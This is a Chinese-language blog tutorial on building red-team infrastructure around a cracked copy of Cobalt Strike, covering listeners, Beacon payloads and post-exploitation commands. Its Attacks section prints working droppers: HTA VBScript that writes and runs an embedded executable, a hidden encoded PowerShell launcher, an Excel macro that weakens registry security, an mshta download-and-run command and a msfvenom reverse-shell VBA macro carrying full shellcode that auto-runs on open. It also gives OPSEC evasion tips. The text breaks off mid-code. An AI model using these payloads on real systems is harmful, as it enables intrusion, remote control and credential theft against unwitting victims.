



# [Red Team: Infrastructure](https://www.raingray.com/archives/4385.html)

本文提到的红队基础设施包括基本的 VPS、Domain、SSL Certificate 设置到 C2 使用和 C2 Profile 自定义流量，最后一部分会介绍邮箱和站点钓鱼设施搭建使用。

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [C2 使用](#C2+%E4%BD%BF%E7%94%A8)
    -   [安装](#%E5%AE%89%E8%A3%85)
    -   [快速体验主机上线](#%E5%BF%AB%E9%80%9F%E4%BD%93%E9%AA%8C%E4%B8%BB%E6%9C%BA%E4%B8%8A%E7%BA%BF)
        -   [创建 Listener](#%E5%88%9B%E5%BB%BA+Listener)
        -   [生成 Windows 二进制 Payload](#%E7%94%9F%E6%88%90+Windows+%E4%BA%8C%E8%BF%9B%E5%88%B6+Payload)
        -   [Beacon 命令](#Beacon+%E5%91%BD%E4%BB%A4)
    -   [Listener Payload 类型详解](#Listener+Payload+%E7%B1%BB%E5%9E%8B%E8%AF%A6%E8%A7%A3)
        -   [Beacon HTTP/HTTPS](#Beacon+HTTP%2FHTTPS)
        -   [Beacon DNS](#Beacon+DNS)
        -   [Beacon TCP](#Beacon+TCP)
        -   [Beacon SMB](#Beacon+SMB)
        -   [Extermal C2](#Extermal+C2)
        -   [Foreign HTTP/HTTPS](#Foreign+HTTP%2FHTTPS)
    -   [Attacks 菜单详解](#Attacks+%E8%8F%9C%E5%8D%95%E8%AF%A6%E8%A7%A3)
        -   [HTML Application（HTA）](#HTML+Application%EF%BC%88HTA%EF%BC%89)
        -   [MS Office Macro](#MS+Office+Macro)
        -   [Payload Gennerator](#Payload+Gennerator)
        -   [Windows Executable/Executable (S)](#Windows+Executable%2FExecutable+%28S%29)
        -   [Manage](#Manage)
        -   [Clone Site](#Clone+Site)
        -   [Host File](#Host+File)
        -   [Scripted Web Delivery (S)](#Scripted+Web+Delivery+%28S%29)
        -   [System Profier](#System+Profier)
    -   [Becaon Spawn](#Becaon+Spawn)
    -   [CS 与 MSF 联动](#CS+%E4%B8%8E+MSF+%E8%81%94%E5%8A%A8)
        -   [CS 开启 Sockes 与 MSF 联动](#CS+%E5%BC%80%E5%90%AF+Sockes+%E4%B8%8E+MSF+%E8%81%94%E5%8A%A8)
        -   [MSF 本地 SSH 动态端口转发 CS Foreign HTTP(S) 监听器流量](#MSF+%E6%9C%AC%E5%9C%B0+SSH+%E5%8A%A8%E6%80%81%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91+CS+Foreign+HTTP%28S%29+%E7%9B%91%E5%90%AC%E5%99%A8%E6%B5%81%E9%87%8F)
    -   [插件](#%E6%8F%92%E4%BB%B6)
    -   [快捷键](#%E5%BF%AB%E6%8D%B7%E9%94%AE)
-   [C2 隐蔽](#C2+%E9%9A%90%E8%94%BD)
    -   [服务器](#%E6%9C%8D%E5%8A%A1%E5%99%A8)
    -   [域名与证书](#%E5%9F%9F%E5%90%8D%E4%B8%8E%E8%AF%81%E4%B9%A6)
    -   [反向代理](#%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)
        -   [Apache](#Apache)
        -   [Nginx](#Nginx)
        -   [自动化搭建](#%E8%87%AA%E5%8A%A8%E5%8C%96%E6%90%AD%E5%BB%BA)
    -   [C2 Profile](#C2+Profile)
        -   [默认证书](#%E9%BB%98%E8%AE%A4%E8%AF%81%E4%B9%A6)
        -   [HTTP 请求伪装](#HTTP+%E8%AF%B7%E6%B1%82%E4%BC%AA%E8%A3%85)
        -   [后渗透](#%E5%90%8E%E6%B8%97%E9%80%8F)
    -   [Hiding C2 Traffic](#Hiding+C2+Traffic)
        -   [CDN](#CDN)
        -   [Cloud Function](#Cloud+Function)
        -   [Domain Borrowing](#Domain+Borrowing)
-   [钓鱼服务](#%E9%92%93%E9%B1%BC%E6%9C%8D%E5%8A%A1)
    -   [邮件](#%E9%82%AE%E4%BB%B6)
    -   [站点](#%E7%AB%99%E7%82%B9)
-   [Rotating IP](#Rotating+IP)
-   [参考链接](#%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5)

## C2 使用

C2 简称 Command & Control。

[常见 C2 框架](https://www.thec2matrix.com/)：

-   CobaltStrike
-   Covernant
-   Meterpreter
-   Powershell Empire

C2 通常有三个角色，客户端、被控端、服务端。客户端通过连接到服务端服务端操控受害者终端。


以前使用过 Armitage、灰鸽子的读者，其实对标现在的概念就是 C2 框架，只不过它比远控多了很多提权、免杀、EXP、插件等功能。本文只使用 Cobalt Strike。Cobalt Strike 作为示例演示如何使用，其他 C2 功能类似，熟练一个往后使用其他 C2 框架也会快很多。

### 安装

Cobalt Strike 使用 Java 开发，在运行前需要提前安装 LTS 版 JDK 或 JRE 运行环境，具体版本请查询 PDF 安装手册，比如 4.5 和 4.7 版本就要求 Java 1.8 或 11 版本。

存在多个 Java 版本可以用 `update-java-alternatives -s <jname>` 切换 Java 版本。

```plaintext
ubuntu@ip-172-26-7-83:~$ java -version
openjdk version "17.0.5" 2022-10-18
OpenJDK Runtime Environment (build 17.0.5+8-Ubuntu-2ubuntu120.04)
OpenJDK 64-Bit Server VM (build 17.0.5+8-Ubuntu-2ubuntu120.04, mixed mode, sharing)
ubuntu@ip-172-26-7-83:~$ update-java-alternatives -l
java-1.11.0-openjdk-amd64      1111       /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64      1711       /usr/lib/jvm/java-1.17.0-openjdk-amd64
ubuntu@ip-172-26-7-83:~$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
ubuntu@ip-172-26-7-83:~$ java -version
openjdk version "11.0.17" 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Ubuntu-1ubuntu220.04)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Ubuntu-1ubuntu220.04, mixed mode, sharing)
```

环境装好只需服务端运行 teamserver，地址是服务器对方提供访问的地址，密码是客户端连接过来时验证客户端身份用，需要设置强密码避免被人端掉，malleableC2profile 则是配置文件，目前正是熟悉软件阶段不需要自定义配置。

```plaintext
./teamserver <ip_address> <password> [<malleableC2profile>]
```

实际运行都是通过终端连接到远程服务器，最好使用 tmux、screen、nohup 防止终端退出时杀死 teamserver 进程。

```plaintext
┌──(kali㉿kali)-[~/Desktop/CobaltStrike 4.4-Cracked]
└─$ sudo ./teamserver 192.168.0.102 123 
[sudo] password for kali: 
[*] Will use existing X509 certificate and keystore (for SSL)
[*] Loading properties file (/home/kali/Desktop/CobaltStrike 4.4-Cracked/TeamServer.prop).
[*] Properties file was loaded.
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: 9346ed19ef5344240df5f1220c62a3e34ed493a5105bae10b3e7a5de5221f2ab
[+] Listener: test started!
```

客户端 Windows 运行 cobaltstrike.exe，Linux 则是 cobaltstrike 文件。


Alias 时用来给 Profile 做别名使用，方便表示这个 Team Server 是哪个目标的，Host 是 运行 teamserver 是填写的 ，Port 在没有修改配置文件的情况下默认是 50050，User 是你的用户名 Cobalt Strike 是支持多用户连接的，填写用户名方便区分攻击队员，Password 则是刚刚设置的密码，一旦错误无法访问。

第一次连接会提示指纹信息，这和第一次通过 SSH 连接服务器作用一样，让你主动确认证书对不对，防止中间人攻击。


确认后登录成功。



客户端支持连接多台服务器，避免一台服务器被阻断后影响渗透过程，在菜单 Cobalt Strike -> New Connection 连接新服务器，也可以找工具栏加号按钮 。

连接成功后通过底部标签进行切换，这里连接的两台服务器分别是 JP 和 HK。


### 快速体验主机上线

#### 创建 Listener

Cobalt Strike Payload 叫 Beacon，Beacon 是通过 HTTP/HTTPS、DNS、TCP、SMB 协议与服务端通信。在使用 Payload 前需生成前需要创建 Linstener，后续所有 Beacon 会使用 Listener 与之通信。

到菜单 Cobalt Strike -> Linstener 添加一个。或者点击工具栏耳机按钮  也可以直接打开 Listener。

在 Lsteners 标签点击 add 按钮添加 Listener。

Beacon 选择「Beacon HTTP」创建 HTTP 服务与目标同行，Name 是对 Listener 备注名称，HTTP Hosts 是 Beacon 回连地址，HTTP Port (C2) 是回连地址端口号，HTTP Host (Stager) 是下载 Staged 剩余 Payload 主机地址。


初次使用不需过于关注配置参数细节，先了解整个流程怎么运转熟悉下基本操作即可。

#### 生成 Windows 二进制 Payload



有两个选项：

-   Attacks -> Packages -> Windows Executable
-   Attacks -> Packages -> Windows Executable（S）

选项一是 Staged Payload，生成的 Payload 在运行后向刚刚在 Listener 设置的 HTTP Host (Stager) 地址下载剩余的 Payload 并由当前进程解密后加载到内存中，此时才向 Listener 中 HTTP Hosts 中主机建立通信。带 S 的选项二是 Stageless payload，生成的 Payload 在运行后就与 Listener 中 HTTP Hosts 主机建立通信。


生成前必须为 Beacon 选择 Listener。


x64 是要根据目标系统选择版本，通常 x64 能够兼容 x32 位，但最好不要这么做，以目标版本为准，防止意外掉线。

Output 是要输出的程序，有不落地的 PowerShell、EXE 可以执行文件、DLL 文件用于劫持，Windows Service EXE 运行后自动创建服务，这里以 Windows EXE 为例。

一旦机器运行后就会自动上线。


右键 Interact 会在标签栏自动新增 Beacon 交互窗口，可以输入命令对目标执行操作。

#### Beacon 命令

具体有哪些操作，使用 help 或 ? 展示帮助，可以展示有哪些命令可用。

```plaintext
beacon> help

Beacon Commands
===============

    Command                   Description
    -------                   -----------
    argue                     Spoof arguments for matching processes
    blockdlls                 Block non-Microsoft DLLs in child processes
    browserpivot              Setup a browser pivot session
    cancel                    Cancel a download that's in-progress
    cd                        Change directory
    checkin                   Call home and post data
    chromedump                Recover credentials from Google Chrome
    clear                     Clear beacon queue
    connect                   Connect to a Beacon peer over TCP
    covertvpn                 Deploy Covert VPN client
    cp                        Copy a file
    dcsync                    Extract a password hash from a DC
    desktop                   View and interact with target's desktop
    dllinject                 Inject a Reflective DLL into a process
    dllload                   Load DLL into a process with LoadLibrary()
    download                  Download a file
    downloads                 Lists file downloads in progress
    drives                    List drives on target
    elevate                   Spawn a session in an elevated context
    execute                   Execute a program on target (no output)
    execute-assembly          Execute a local .NET program in-memory on target
    exit                      Terminate the beacon session
    getprivs                  Enable system privileges on current token
    getsystem                 Attempt to get SYSTEM
    getuid                    Get User ID
    hashdump                  Dump password hashes
    help                      Help menu
    inject                    Spawn a session in a specific process
    inline-execute            Run a Beacon Object File in this session
    jobkill                   Kill a long-running post-exploitation task
    jobs                      List long-running post-exploitation tasks
    jump                      Spawn a session on a remote host
    kerberos_ccache_use       Apply kerberos ticket from cache to this session
    kerberos_ticket_purge     Purge kerberos tickets from this session
    kerberos_ticket_use       Apply kerberos ticket to this session
    keylogger                 Start a keystroke logger
    kill                      Kill a process
    link                      Connect to a Beacon peer over a named pipe
    logonpasswords            Dump credentials and hashes with mimikatz
    ls                        List files
    make_token                Create a token to pass credentials
    mimikatz                  Runs a mimikatz command
    mkdir                     Make a directory
    mode dns                  Use DNS A as data channel (DNS beacon only)
    mode dns-txt              Use DNS TXT as data channel (DNS beacon only)
    mode dns6                 Use DNS AAAA as data channel (DNS beacon only)
    mv                        Move a file
    net                       Network and host enumeration tool
    note                      Assign a note to this Beacon       
    portscan                  Scan a network for open services
    powerpick                 Execute a command via Unmanaged PowerShell
    powershell                Execute a command via powershell.exe
    powershell-import         Import a powershell script
    ppid                      Set parent PID for spawned post-ex jobs
    printscreen               Take a single screenshot via PrintScr method
    ps                        Show process list
    psinject                  Execute PowerShell command in specific process
    pth                       Pass-the-hash using Mimikatz
    pwd                       Print current directory
    reg                       Query the registry
    remote-exec               Run a command on a remote host
    rev2self                  Revert to original token
    rm                        Remove a file or folder
    rportfwd                  Setup a reverse port forward
    rportfwd_local            Setup a reverse port forward via Cobalt Strike client
    run                       Execute a program on target (returns output)
    runas                     Execute a program as another user
    runasadmin                Execute a program in an elevated context
    runu                      Execute a program under another PID
    screenshot                Take a single screenshot
    screenwatch               Take periodic screenshots of desktop
    setenv                    Set an environment variable
    shell                     Execute a command via cmd.exe
    shinject                  Inject shellcode into a process
    shspawn                   Spawn process and inject shellcode into it
    sleep                     Set beacon sleep time
    socks                     Start SOCKS4a server to relay traffic
    socks stop                Stop SOCKS4a server
    spawn                     Spawn a session 
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another process
    spunnel                   Spawn and tunnel an agent via rportfwd
    spunnel_local             Spawn and tunnel an agent via Cobalt Strike client rportfwd
    ssh                       Use SSH to spawn an SSH session on a host
    ssh-key                   Use SSH to spawn an SSH session on a host
    steal_token               Steal access token from a process
    timestomp                 Apply timestamps from one file to another
    unlink                    Disconnect from parent Beacon
    upload                    Upload a file
```

不知道怎么使用这些命令，通过 help 跟上具体命令 `help <command>`，会输出具体使用说明。

```plaintext
beacon> help ls
Use: ls [folder]

Lists files in a folder
```

`[folder]` 是必选的参数 如果遇到尖括号如 `<argrument name>` 就是可选参数。

ls 执行成功

```plaintext
beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 19 bytes
[*] Listing: C:\Users\raingray\Desktop\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     05/12/2022 22:45:10   adobeacrobatxipro
 14mb     fil     05/12/2022 22:44:00   360zip_setup.exe
 723mb    fil     05/12/2022 22:43:07   adobeacrobatxipro.rar
 130mb    fil     04/14/2022 09:14:24   app.zip
 282b     fil     02/04/2022 17:30:48   desktop.ini
 10mb     fil     05/12/2022 23:17:56   FangSong.ttf
 3mb      fil     03/06/1999 03:00:00   FZFSJW.TTF
 2kb      fil     02/04/2022 17:37:53   Microsoft Edge.lnk
 3mb      fil     02/19/2011 14:27:18   仿宋_GB2312.ttf
 503kb    fil     05/13/2022 00:01:00   工资流水.pdf
```

部分命令执行成功无回显会输出 `[+] host called home. sent: X bytes`，如 sleep。

```plaintext
beacon> sleep 5
[*] Tasked beacon to sleep for 5s
[+] host called home, sent: 16 bytes
```

*OPSEC：Sleep 时长是一个固定秒数，可以通过 sleep 命令设置 jitter 值，范围是 0-99，意思是在固定秒数内按照此百分比随机抖动。*

执行命令你会发现回显结果特别慢，这是避免频繁通信暴露目标，每个 Beacon 默认 sleep 是 60 秒与服务器通讯一次，通过命令 sleep 或者右键 Becaon，找到 `Session -> Sleep` 设置 TeamServer 与 Beacon 通信时间。

*OPSEC：目标是 Windows 的情况下可以多使用 execute-assembly 执行 C# 编写的程序，这样可以不用上传程序到目标中再运行，避免文件落地，直接指定本地文件路径在目标内存中运行。*

### Listener Payload 类型详解

Beacon 有几种类型：

-   Beacon DNS
-   Beacon HTTP  
    Beacon HTTPS
-   Beacon SMB
-   Beacon TCP
-   Extermal C2
-   Foreign HTTP  
    Foreign HTTPS

这些类型都是指 Becaon 连接 Server 的协议是什么。

DNS 需要公网能够解析的域名。

HTTPS 需要买证书。

#### Beacon HTTP/HTTPS

HTTP 和 HTTPS 使用方法一样，HTTPS 无非多了一个 SSL 证书，可以保证传输加密，下面以 HTTP 为例。

HTTP Hosts 可以添加多个主机，这样按 Host Rotation Strategy 规则决定上线哪台。

禁用 Staged Payload `set host_stage "false"` 情况下使用 Stageless Payload，那么监听器中 HTTP Host (Stager) 填写就无效，仅仅是占位符作用，根本不会向此主机下载剩余 Payload。

#### Beacon DNS

#### Beacon TCP

#### Beacon SMB

#### Extermal C2

#### Foreign HTTP/HTTPS

### Attacks 菜单详解

#### HTML Application（HTA）

生成 .hta 应用上线 Windows。原生构造很简单是 HTML、CSS、VBScript 的组合，HTML 和 CSS 控制样式，VBScript 执行系统命令。

```xml
<html>
    <head>
        <title>tetsa</title>
        <style>
            h1 {
                color: red;
            }
        </style>
    </head>
    <body>
        <h1>Hello</h1>
        <a href=#>test link</a>

        <script language="VBScript">
            CreateObject("Wscript.Shell").Run("calc")
        </script>
    </body>
</html>
```

执行后将弹出 HTA 界面和计算器。


HTML Application 菜单有三个方法：

-   Executable
-   PowerShell
-   VBA

Executable 生成内容是 VBScript 脚本，使用 Wscript.Shell 运行代码。

```plaintext
<script language="VBScript">
    Function var_func()
        var_shellcode = "4d5a90000300000004000000ffff0000b8000......"

        Dim var_obj
        Set var_obj = CreateObject("Scripting.FileSystemObject")
        Dim var_stream
        Dim var_tempdir
        Dim var_tempexe
        Dim var_basedir
        Set var_tempdir = var_obj.GetSpecialFolder(2)
        var_basedir = var_tempdir & "\" & var_obj.GetTempName()
        var_obj.CreateFolder(var_basedir)
        var_tempexe = var_basedir & "\" & "evil.exe"
        Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
        For i = 1 to Len(var_shellcode) Step 2
            var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
        Next
        var_stream.Close
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run var_tempexe, 0, true
        var_obj.DeleteFile(var_tempexe)
        var_obj.DeleteFolder(var_basedir)
    End Function

    var_func
    self.close
</script>
```

PowerShell 也是 VBScript 脚本不过 Wscript.Shell 运行的是 PowerShell 程序，其执行的内容经过 Base64 编码。

```plaintext
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAG......MAdAAgAEkAoACkAOwA=", 0, true
    End Function
    var_func
    self.close
</script>
```

VBS 将执行 Excel 宏上线。过程是修改注册表信任 Excel 宏，并执行宏，最后恢复注册表。

```plaintext
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
    on error resume next
    WshShell.RegRead regKey
    RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
    action = WshShell.RegRead(RegPath)
else
    action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private "......"
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
    WshShell.RegDelete RegPath
else
    WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```

执行上线很简单，使用 mshta 执行 .hta 文件即可。

```plaintext
mshta http://192.168.0.102:80/download/file.ext
```

#### MS Office Macro

微软 Office Word，Excel，PowerPoint 常说宏都是用 VBA（Visual Basic for Application）编写的，这个宏的作用是可以访问部分 Windows API 模拟键盘、鼠标等操作。

此功能在 “视图 -> 查看宏”，英文也是 “view → macros”。


输入宏的名称，并选择宏用于哪个文档，这里选择的是 “文档1（文档）”，可以通过当前文档名确认就是当前文档。


点击创建后会出现代码编辑界面，含有就基本调试、编辑功能，默认创建部分代码。

```plaintext
Sub MacroAttack()
'
' MacroAttack 宏
'
'

End Sub
```

默认代码是由函数 Sub MacroAttack() 组成，End Sub 是结尾，单引号是注释。更多语法见 [Visual Basic conceptual topics](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/visual-basic-conceptual-topics)。

如果想用户打开文档就自动执行宏，可以使用 `AutoOpen()`，打开文档后包含在内的表达式都会执行。至于说先定义 `AutoOpen()` 在里面调 `MacroAttack` 最后再定义 `MacroAttack` 会不会出现找不到这个函数，这个不用担心，都可以执行。

```plaintext
Sub MacroAttack()
  ' 定义变量 payload，类型为 String
    Dim payload As String

  ' 赋值字符串 calc
    payload = "calc"

  ' 将 payload 变量字符串作为命令运行
    CreateObject("Wscript.Shell").Run payload, 0
End Sub


Sub AutoOpen()
  MacroAttack
End Sub
```

编写完宏可以在代码编辑器中 “文件 -> 保存”，或者直接在文档中保存文件都可以，文件后缀选择 doc、docm、dotm 其中之一（也可以提前创建好文件再写宏）。docm、dotm 在 Windows 11 默认找不到应用打开，不利于利用，最好选 doc 这样默认情况使用 Word 打开会很方便。

打开文档后会提示安全警告。


点击 “启用内容”，宏 `AutoOpen()` 会被执行。


在测试中留下几个疑问记录在此：

1.  你会测试 WPS 打开吗？打开发现无效时因为 WPS 使用的不是 JS，而不是 VBA 编写。
    
2.  不同应用在打开文档时会触发对应打开事件。
    
    ```plaintext
     ' Excel 打开事件
     Sub Workbook_Open()
       ' Put your code here
     End Sub
    
     ' Word 打开事件
     Sub Document_Open()
       ' Put your code here
     End Sub
    ```
    
    测试了 Word （Word 版本 2019）的 Document\_Open，并不会调用方法。如果真的有效和 AutoOpen 区别在哪里？
    
3.  在正常 Word 文档中插入带有宏的文档，从里面打开宏直接被禁止。
    
    
    

**继续补充 CS 菜单中宏生成，并简单分析下原理。接着和 msfvenom 生成的 Payload 做对比。**

msfvenom.vba

```plaintext
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f vba -o MacroAttack.vba
```

```plaintext
#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Hsftnqav As Long, ByVal Ywha As Long, ByVal Bmxmxakic As LongPtr, Quks As Long, ByVal Eyjxc As Long, Cttl As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Zhxw As Long, ByVal Kqupn As Long, ByVal Wmc As Long, ByVal Synyvm As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Wbbwsxt As LongPtr, ByRef Ekp As Any, ByVal Bxssrljwg As Long) As LongPtr
#Else
    Private Declare Function CreateThread Lib "kernel32" (ByVal Hsftnqav As Long, ByVal Ywha As Long, ByVal Bmxmxakic As Long, Quks As Long, ByVal Eyjxc As Long, Cttl As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Zhxw As Long, ByVal Kqupn As Long, ByVal Wmc As Long, ByVal Synyvm As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Wbbwsxt As Long, ByRef Ekp As Any, ByVal Bxssrljwg As Long) As Long
#EndIf

Sub Auto_Open()
    Dim Sdcxt As Long, Jkkfrdd As Variant, Ttlr As Long
#If Vba7 Then
    Dim  Nss As LongPtr, Jqcace As LongPtr
#Else
    Dim  Nss As Long, Jqcace As Long
#EndIf
    Jkkfrdd = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,139,114,40,49,255,15,183,74,38,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,72,24,139,88,32,80,1,211,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,127,0,0,1,104,2,0,1,187,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

    Nss = VirtualAlloc(0, UBound(Jkkfrdd), &H1000, &H40)
    For Ttlr = LBound(Jkkfrdd) To UBound(Jkkfrdd)
        Sdcxt = Jkkfrdd(Ttlr)
        Jqcace = RtlMoveMemory(Nss + Ttlr, Sdcxt, 1)
    Next Ttlr
    Jqcace = CreateThread(0, 0, Nss, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

Cobalt Strike.vba

```plaintext
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
